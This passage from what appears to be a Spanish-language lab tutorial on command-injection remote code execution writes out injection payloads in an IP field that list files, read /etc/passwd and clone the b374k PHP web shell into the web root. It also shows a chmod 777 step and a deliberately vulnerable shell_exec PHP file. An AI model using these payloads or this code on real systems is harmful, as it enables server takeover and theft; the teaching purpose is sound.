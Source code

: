 Podemos llegar a listar los archivos del directorio donde se encuentra el archivo rce.php con 
~~~
8.8.8.8 & ls
~~~
Si se muestran archivos del sistema en pantalla, el ataque funciona.

![](images/rce4.png)

**Probar más comandos:**

~~~
8.8.8.8 & cat /etc/passwd
~~~

![](images/rce5.png)

Si muestra el contenido de /etc/passwd, el atacante puede extraer credenciales.

**Intentar descargar y ejecutar malware:**

Sólo para nuestro ejemplo dar permisos de escritura a /var/www/html/

~~~
sudo chmod -R 777 /var/www/html/
~~~
Introducimos codigo para concatenar la ip del servidor dns de Google, con descargar el proyecto git b374k: 
~~~
8.8.8.8 & git clone https://github.com/b374k/b374k.git /var/www/html/b374k
~~~

Si lo realiza, estará instalando en el directorio b374k un shell basado en PHP. Luego podremos acceder a él y ejecutar los comandos que queramos.

![](images/rce4.png)

~~~
http://localhost/b374k/index.php
~~~

![](images/rce14.png)

El atacante tiene control total del sistema.

### Mitigaciones de RCE
Para las mitigaciones vamos a utilizar otros archivos: 

Este es el contenido de rce.php
~~~
<?php
$output = shell_exec($_GET['cmd']);
echo "<pre>$output</pre>";
?>
~~~

El archivo rce.php nos va a permitar ejecutar comandos de forma que podemos llamarlo desde otros archivos o bien directamente de la forma:
~~~
http://localhost/rce.php?cmd=cat /etc/passwd
~~~
